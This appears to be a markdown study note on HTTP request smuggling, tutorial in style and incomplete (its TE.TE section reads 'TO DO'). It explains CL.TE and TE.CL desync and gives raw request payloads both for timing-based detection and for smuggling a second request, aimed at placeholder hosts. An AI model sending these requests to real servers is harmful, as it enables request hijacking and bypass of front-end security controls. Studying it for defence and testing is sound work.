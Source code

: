 # HTTP request smuggling

## General info
- HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
- Request smuggling is associated to HTTP/1 requests but can also affect HTTP/2-supported websites based on their backend structure.
- Modern web apps often use chains of HTTP servers, with users sending requests to a front-end server (sometimes referred to as a load balancer or reverse proxy), which in turn forwards requests to multiple back-end servers.
- Front-end and back-end systems must agree on request boundaries to prevent ambiguous requests that attackers can exploit

## How do HTTP request smuggling vulnerabilities arise?
- HTTP request smuggling vulnerabilities often occur due to the HTTP/1 specification offering two methods to define the request's end: the `Content-Length header` and `Transfer-Encoding` header.
  - The `Content-Length header` specifies the length of the message body in bytes
  - The `Transfer-Encoding` header specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data
    - Each chunk comprises a size in hexadecimal bytes, a newline, and the chunk's content. The message concludes with a zero-sized chunk.
```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Finding HTTP request smuggling vulnerabilities
### Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X\r\n
```
The back-end server processes the first chunk using the Transfer-Encoding header, leading to an observable time delay while awaiting the next chunk.

### Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```
- The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.
- NOTE: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.

## How to perform an HTTP request smuggling attack
- <b>CL.TE</b>: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 13\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
SMUGGLEDGET /second HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
...
```
- Content-Length: 0\r\n\r\nSMUGGLED -> 13
- SMUGGLED ES.: GET / HTTP/1.1\r\nfoo: a


- <b>TE.CL</b>: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 3\r\n
Transfer-Encoding: chunked\r\n
\r\n
8\r\n
SMUGGLED\r\n
0
```
  - Front-end server:
    - Processes Transfer-Encoding header, assumes chunked encoding.
    - Handles the first chunk (8 bytes) up to the line after "SMUGGLED."
    - Handles the second zero-length chunk, ending the request.
    - Forwards the request to the back-end server.

  - Back-end server:
    - Processes Content-Length header, detects a 3-byte request body (up to the line after "8").
    - The following bytes, starting with "SMUGGLED," are left unprocessed.
    - The back-end server considers these bytes as the start of the next request in the sequence.

- <b>TE.TE</b>: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.
  - TO DO ...

